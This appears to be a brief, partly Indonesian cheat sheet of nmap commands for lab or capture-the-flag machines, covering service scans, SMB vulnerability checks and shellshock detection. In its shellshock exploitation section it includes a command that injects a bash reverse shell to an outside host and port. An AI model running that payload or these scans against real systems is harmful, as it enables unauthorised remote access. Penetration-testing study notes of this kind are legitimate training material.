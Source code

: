 # SCANNING WITH NMAP 

sudo nmap -sC -sV -vv 10.10.10.229 


# Kalo gabisa konek + gaada port open 

    nmap -p 21,22,139,445,3632 -sV -sC -oA scans/tcpscripts <host>

# Scan SMB vuln

    nmap --script smb-vuln* -p 445 10.10.10.40 

# Scan shellshock vuln

    nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh" 10.10.10.56

PS: `uri=` di temukan pada target machine

# Exploit shellshock vuln

getting reverse shell from shellshock vuln

    nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=/bin/bash -i >& /dev/tcp/10.10.14.20/1337 0>&1" 10.10.10.56

# enum tcp

    nmap -sU --top-ports 200 10.10.10.21  

or 

    nmap -sU --top-ports 200 -oA scans/nmap-udptop200 10.10.10.21  
